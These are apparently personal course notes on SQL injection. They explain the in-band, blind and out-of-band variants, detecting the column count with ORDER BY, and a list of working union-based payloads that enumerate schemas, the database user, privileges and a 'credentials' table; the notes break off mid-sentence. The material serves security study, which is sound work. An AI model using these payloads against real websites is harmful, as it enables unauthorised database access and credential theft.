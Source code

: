 ![[Pasted image 20250404161804.png]]

In simple cases, the output of both the intended and the new query may be printed directly on the front end, and we can directly read it. This is known as `In-band` SQL injection, and it has two types: `Union Based` and `Error Based`.

With `Union Based` SQL injection, we may have to specify the exact location, 'i.e., column', which we can read, so the query will direct the output to be printed there. As for `Error Based` SQL injection, it is used when we can get the `PHP` or `SQL` errors in the front-end, and so we may intentionally cause an SQL error that returns the output of our query.

In more complicated cases, we may not get the output printed, so we may utilize SQL logic to retrieve the output character by character. This is known as `Blind` SQL injection, and it also has two types: `Boolean Based` and `Time Based`.

With `Boolean Based` SQL injection, we can use SQL conditional statements to control whether the page returns any output at all, 'i.e., original query response,' if our conditional statement returns `true`. As for `Time Based` SQL injections, we use SQL conditional statements that delay the page response if the conditional statement returns `true` using the `Sleep()` function.

Finally, in some cases, we may not have direct access to the output whatsoever, so we may have to direct the output to a remote location, 'i.e., DNS record,' and then attempt to retrieve it from there. This is known as `Out-of-band` SQL injection.

In this module, we will only be focusing on introducing SQL injections through learning about `Union Based` SQL injection.


## SQLi Discovery
![[Pasted image 20250404164115.png]]

## Detect number of columns

Before going ahead and exploiting Union-based queries, we need to find the number of columns selected by the server. There are two methods of detecting the number of columns:

- Using `ORDER BY`
- Using `UNION`

#### Using ORDER BY

The first way of detecting the number of columns is through the `ORDER BY` function, which we discussed earlier. We have to inject a query that sorts the results by a column we specified, 'i.e., column 1, column 2, and so on', until we get an error saying the column specified does not exist.

For example, we can start with `order by 1`, sort by the first column, and succeed, as the table must have at least one column. Then we will do `order by 2` and then `order by 3` until we reach a number that returns an error, or the page does not show any output, which means that this column number does not exist. The final successful column we successfully sorted by gives us the total number of columns.

If we failed at `order by 4`, this means the table has three columns, which is the number of columns we were able to sort by successfully. Let us go back to our previous example and attempt the same, with the following payload:

```sql
' order by 1-- -
```

Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).


### SQLi Payloads
**UNION & ORDER BY** : 
- `val' UNION select 1,2,3,4-- -`
- `val' UNION select 1,@@version,3,4-- -`
- `' order by 2-- -`

**SCHEMATA** : 
- `SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`
- `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`
- `cn' UNION select 1,database(),2,3-- -`
- `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`  : This payload gives us the information regarding the column name, table name and table schema of the tables

## DB User
```
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Injection payload will be : `value' UNION SELECT 1, user(), 3, 4-- -` or `value' UNION SELECT 1, user, 3, 4 FROM mysql.user-- -`

## User Privileges
`SELECT super_priv FROM mysql.user` : This is the command used to know about the Super Admin Privileges.

`value' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -` : This is the payload for the above command.
If we want to know about the privileges of a particular user, maybe 'root', so we'll use the payload as : `value' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`

`cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -` : This comm